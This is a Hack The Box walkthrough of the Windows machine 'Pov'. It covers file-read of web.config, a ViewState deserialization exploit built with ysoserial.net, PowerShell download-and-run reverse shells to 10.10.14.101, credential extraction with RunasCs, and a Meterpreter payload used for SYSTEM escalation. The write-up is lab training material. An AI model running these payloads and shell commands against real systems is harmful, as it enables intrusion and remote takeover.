




# Pov



Pov is a medium Windows Hack The Box machine that starts with a viewstate abuse on an ASP.NET site, then moves into credential reuse and ends with privilege escalation through `SeDebugPrivilege`.

## Reconnaissance

I started with an Nmap scan of the machine.

```bash
sudo nmap -sS -A -p- -o nmap 10.129.228.67
```

The scan showed only HTTP on port 80:

```text
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: pov.htb
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Since only the web server was open, I focused on HTTP first.



## VHost Discovery

The page at `pov.htb` was a static website, which suggested either hidden content or another virtual host. I used subdomain brute forcing to look for more hosts.

```bash
wfuzz -c -f sub-fighter -Z -w /home/kali/share/Share/Tools/general/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://pov.htb -H "Host: FUZZ.pov.htb" --hl 233
```

That found a valid subdomain:

```text
dev.pov.htb
```

I added it to my hosts file and browsed to it.

## Viewstate Abuse

The `dev.pov.htb` site was a portfolio page for a web developer. The page had a CV download button, and the download request included a suspicious `file` parameter.



The browser sent a POST request like this:

```http
POST /portfolio/default.aspx HTTP/1.1
Host: dev.pov.htb

__EVENTTARGET=download&__EVENTARGUMENT=&__VIEWSTATE=...&__EVENTVALIDATION=...&file=cv.pdf
```


I tried changing the file parameter to `default.aspx` and got back the source code of the page.

```http
POST /portfolio/default.aspx HTTP/1.1
Host: dev.pov.htb

__EVENTTARGET=download&__EVENTARGUMENT=&__VIEWSTATE=...&__EVENTVALIDATION=...&file=default.aspx
```

That returned a valid download response containing the ASPX source. After that, I tested `/web.config` and was able to read it as well.

```xml
<configuration>
  <system.web>
    <customErrors mode="On" defaultRedirect="default.aspx" />
    <httpRuntime targetFramework="4.5" />
    <machineKey decryption="AES" decryptionKey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" validation="SHA1" validationKey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" />
  </system.web>
</configuration>
```

The key detail here was the `machineKey` values, which can be used to forge and sign malicious ViewState payloads.

## Malicious ViewState

With the decryption and validation keys from `web.config`, I generated a malicious ViewState payload using ysoserial.net https://github.com/pwntester/ysoserial.net.

```bash
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio/contact.aspx" -c "curl 10.10.14.101/test"
```

I then hosted a simple web server and sent the payload to the contact form.

```bash
python -m http.server 80
```

The POST request looked like this:

```http
POST /portfolio/contact.aspx HTTP/1.1
Host: dev.pov.htb

__VIEWSTATE=...&__VIEWSTATEGENERATOR=37310E71&__EVENTVALIDATION=...&message=ttt&submit=Send+Message
```

The page did not return a normal response, but the command executed, which confirmed code execution.

## Reverse Shell

To turn the execution into a shell, I hosted `Invoke-PowerShellTcp.ps1` from Nishang and changed the payload.

```bash
.\ysoserial.exe -p ViewState -g TextFormattingRunProperties --decryptionalg="AES" --decryptionkey="74477CEBDD09D66A4D4A8C8B5082A4CF9A15BE54A94F6F80D5E822F347183B43" --validationalg="SHA1" --validationkey="5620D3D029F914F4CDF25869D24EC2DA517435B200CCF1ACFA1EDE22213BECEB55BA3CF576813C3301FCB07018E605E7B7872EEACE791AAD71A267BC16633468" --path="/portfolio/contact.aspx" -c "powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.101/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.101 -Port 443"
```

Submitting the new ViewState gave me a reverse shell as `sfitz`.

## Lateral Movement

In `sfitz`'s documents folder, I found a `connection.xml` file containing a serialized `PSCredential` object.

```xml
<UserName>alaading</UserName>
<Password>01000000d08c9ddf0115d1118c7a00c04fc297eb...</Password>
```

I loaded it back into PowerShell and extracted the password.

```powershell
$Credential = Import-Clixml .\connection.xml
$Credential.GetNetworkCredential().password
```

That gave me the credentials for `alaading`:

```text
f8gQ8fynP44ek1m3
```

Because `runas` needs an interactive session, I used `RunasCS` to launch a shell as `alaading`.

```bash
wget "http://10.10.14.101/RunasCs.exe" -outfile "RunasCs.exe"
```

Then I ran the reverse shell command as that user:

```bash
.\RunasCs.exe alaading f8gQ8fynP44ek1m3 "powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.101/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.101 -Port 444"
```

## Privilege Escalation

Checking privileges showed that `alaading` had `SeDebugPrivilege`.

That privilege allows debugging and manipulating higher-privileged processes, which is very powerful on Windows. I used a Meterpreter payload to migrate into a system-owned process.

First I generated the payload:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.101 LPORT=4000 -f exe > revshell.exe
```

Then I started the handler:

```bash
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter_reverse_tcp;set LHOST tun0;set LPORT 4000;run;"
```

I downloaded and ran the payload on the target:

```powershell
wget "http://10.10.14.101/revshell.exe" -outfile "revshell.exe"
```

After the callback, I listed processes and picked a system process to migrate into, such as `winlogon.exe`.

After migrating and opening a shell, I had SYSTEM privileges.

## Attack Path

- Enumerate the target and find only HTTP.
- Discover `dev.pov.htb` through vhost brute forcing.
- Abuse the `file` parameter to read arbitrary files.
- Extract `web.config` and recover the ASP.NET machine keys.
- Forge a malicious ViewState and achieve code execution.
- Use a PowerShell payload for a reverse shell.
- Find serialized credentials in the user’s documents.
- Extract the password for `alaading`.
- Use `RunasCS` to run commands as that user.
- Abuse `SeDebugPrivilege` with Meterpreter.
- Migrate into a system process and get SYSTEM.
